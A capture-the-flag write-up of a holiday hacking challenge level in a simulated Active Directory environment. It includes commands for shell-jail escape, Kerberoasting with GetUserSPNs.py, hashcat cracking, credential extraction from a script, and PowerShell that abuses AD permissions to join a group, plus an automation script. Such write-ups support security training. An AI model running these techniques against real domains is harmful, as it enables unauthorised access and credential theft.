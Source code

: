 # Objective 8: Kerberoasting on an Open Fire
**Location: Staging**  
**Elf: Jingle Ringford**  
**Hints provided by Eve Snowshoes after completion of [HoHo ... No](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/HoHo...No.md)**

The objective to obtain a secret research document.
In order to get an account in the ELFU AD domain, a registration on https://register.elfu.org is required.
After that an individual username and password is provided which can be used to logon to grades.elfu.org using SSH on port 2222.

### Escaping Application
After the SSH login an application is automatically started.
It is possible to escape this application by sending an EOF (CTRL-D).

### Escaping Python Shell
After this a Python shell is displayed.
In order to escape this `os.system.("bash")` has to be submitted in order to get to a normal Unix shell.

### Reconnaissance
An nmap scan of the network 10.128.0.0/22 reveals two hosts providing Windows services: 10.128.1.53 (domain controller) and 10.128.3.30 (samba file server) with the shares `elfu_svc_shr` and `research_dep`.


### Pulling data from AD
Next the tool `ldapdomaindump` can be used in order to get an idea of the user<->group<->permission structure:
```
ldapdomaindump 10.128.1.53 -u 'elfu\{userid}' -p '{password}'
```
This can be done manually or using Bloodhound.
Bloodhound also reveals that the user `elfu_svc` is Kerberoastable.

The password hash for this Kerberoastable user can be obtained by running
```
GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 'elfu.local/{userid}:{passworð}' -request
```

### Cracking the Password
We follow the hints and prepare the password cracking as follows:
We prepare a password list using CeWL, keeping in mind that explicitly also digits are valid as per the provided hint:
```
./cewl.rb https://register.elfu.org/register --with-numbers -w wordlist
```
In addition, also following the hint, the OneRuleToRuleThemAll rule for Hashcat is downloaded:
```
curl -OJ https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
```
Equipped with these tools, we can let Hashcat crack the password:
```
hashcat -m 13100 -a0 spn.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist
```

Hashcat finds the password for `elfu_svc` to be `Snow2021!`.

### Access to elfu_svc_shr
With this information we can get access to the elfu_svc_shr file share on 10.128.3.30:
```
smbclient -U elfu_svc '\\10.128.3.30\elfu_svc_shr'
```
On this share are several Powershell scripts. One of them, `GetProcessInfo.ps1`, holds credentials for the user `remote_elf`:
```powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
```

### Getting into group Research Department
With the `remote_elf` credential snippet from the script, we can grant our windows domain user the `GenericAll` permissions for the group Research Department (based on [scripts](https://github.com/chrisjd20/hhc21_powershell_snippets) provided by Chris Davis, a Kringle Con speaker) :
```powershell
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
  Add-Type -AssemblyName System.DirectoryServices
  $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
  $username = "{userid}"
  $nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
  $propGUID = [guid]'00000000-0000-0000-0000-000000000000'
  $IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
  $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
  $ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
  $domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
  $secOptions = $domainDirEntry.get_Options()
  $secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
  $domainDirEntry.RefreshCache()
  $domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
  $domainDirEntry.CommitChanges()
  $domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
```
and add then our user to this group:
```powershell
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
  Add-Type -AssemblyName System.DirectoryServices
  $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
  $username = "{userid}"
  $password = "{password}"
  $domainDirEntry = New-Object   System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
  $user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
  $sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
  $b=New-Object byte[] $sid.BinaryLength
  $sid.GetBinaryForm($b,0)
  $hexSID=[BitConverter]::ToString($b).Replace('-','')
  $domainDirEntry.Add("LDAP://<SID=$hexSID>")
  $domainDirEntry.CommitChanges()
  $domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
```
### Access to research_dep share
After a few minutes, our new group membership gets replicated to the samba file server, so that we now have access to the secret document:
```
smbclient '\\10.128.3.30\research_dep'
smb: \> dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
```

The [PDF document](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/SantaSecretToAWonderfulHolidaySeason.pdf) lists **Kindness** as first secret ingredient for a wonderful holiday season.

---
### Bonus: Automation - Kerberoboting
This whole process was automated in an `expect` [script](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/kerberoboting) named `kerberoboting`, so that you can enjoy a brew whilst your computer does the work.
It just requires you to register at https://register.elfu.org, have `hashcat` installed in the PATH and a working CeWL in the local directory:
```
joergen@northpole:~$ ./kerberoboting jsfdgdsjjl 'Ndcopkmbo#'
#
# Kerberoboting in progress - get a brew and lean back
#

Retrieving the wordlist from register.elfu.org using CeWL
Retrieving the OneRuleToRuleThemAll rule for Hashcat
Logging on to grades.elfu.org using SSH
Escaping the application using <EOF>
Escaping the Python shell using os.system('bash')
These shares are available on the file server
smbclient -L '\\\\10.128.3.30'
Enter WORKGROUP\jsfdgdsjjl's password: 

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      
	sysvol          Disk      
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
Running GetUserSPNs.py using my user id to enumerate SPNs linked to user accounts and get their password hashes
Running Hashcat to crack the password
  ok. Password is Snow2021!
Getting access to samba \\\\10.128.3.30\elfu_svc_shr share as user elfu_svc
Obtaining file GetProcessInfo.ps1 which has credentials for remote_elf embedded
Granting myself GenericAll permissions on AD group Research Department and adding myself to it
Getting access to samba \\\\10.128.3.30\research_dep using my user id
dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
smb: \\> Getting file SantaSecretToAWonderfulHolidaySeason.pdf
Transferring file SantaSecretToAWonderfulHolidaySeason.pdf to local machine

#
\# Have fun and explore more
\#

jsfdgdsjjl@grades:~$ 
```

You can see `kerberoboting` in action here: https://asciinema.org/a/458522

**Achievement: Kerberoasting on an Open Fire**
